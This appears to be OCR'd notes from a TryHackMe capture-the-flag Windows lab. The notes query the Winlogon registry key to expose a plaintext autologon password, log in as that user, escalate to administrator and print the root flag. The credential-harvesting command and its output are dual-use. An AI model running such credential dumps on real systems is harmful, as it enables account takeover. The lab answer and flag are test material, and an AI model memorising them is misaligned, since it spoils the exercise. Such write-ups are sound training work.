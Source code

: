 
    Directory: C:\users\hugo\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website                                                  
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website                                   
-a----        9/18/2024   8:28 AM           3684 Get-Information.ps1                                                   
-a----        9/18/2024   8:20 AM            825 Get-WebCredentials.ps1                                                
-a----        9/18/2024   9:17 AM          96846 runAsCs.cs                                                            
-a----        9/18/2024   9:20 AM          51712 RunasCs.exe                                                           
-a----        7/25/2023   2:14 PM             48 user.txt                                                              
-a----        9/18/2024   8:18 AM            825 x.ps1                                                                 


PS C:\users\hugo\desktop> 

**GET hugo password**

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x4f6c9151
    ShutdownFlags    REG_DWORD    0x13
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    hugo
    **DefaultPassword    REG_SZ    SurpriseMF123!**
    AutoLogonSID    REG_SZ    S-1-5-21-1966530601-3185510712-10604624-1008
    LastUsedUsername    REG_SZ    hugo
    ShellAppRuntime    REG_SZ    ShellAppRuntime.exe

**Login via Remmina as hugo**
run cmd as administrator and get access to 

C:\Users\Administrator\Desktop>type root.txt
THM{I_CAN_DO_THIS_ALL_DAY}
C:\Users\Administrator\Desktop>
